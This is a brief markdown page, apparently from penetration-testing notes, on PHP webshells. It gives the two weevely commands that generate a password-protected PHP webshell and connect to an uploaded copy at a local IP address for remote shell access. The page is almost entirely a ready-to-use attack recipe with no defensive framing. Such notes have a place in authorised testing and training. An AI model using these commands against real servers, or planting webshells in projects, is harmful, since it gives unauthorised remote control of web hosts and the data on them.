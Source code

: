 # Webshells

## PHP

These are the most common types of shells we'll be turning to, as like it or not, PHP is probably the most common type of web server application.

### weevely

Using [weevely](https://github.com/epinna/weevely3) we can create php webshells:

```bash
weevely generate password /root/webshell.php
```

Now we execute it, point it to the remote page and get a shell in return:

```bash
weevely "http://192.168.1.101/webshell.php" password
```

